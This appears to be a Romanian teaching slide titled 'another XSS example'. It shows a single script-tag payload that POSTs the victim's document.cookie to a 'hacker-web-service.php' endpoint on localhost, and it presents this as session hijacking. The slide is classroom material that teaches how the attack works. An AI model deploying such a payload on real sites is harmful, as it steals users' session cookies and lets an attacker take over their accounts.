

# Alt exemplu XSS
Cod Javascript care fura sesiunea HTTP curenta (i.e. session hijacking):
'<script>fetch("http://localhost/security/xss/hacker-web-service.php", {method: "POST", body: document.cookie, headers: {"Content-Type": "application/x-www-form-urlencoded"}})</script>'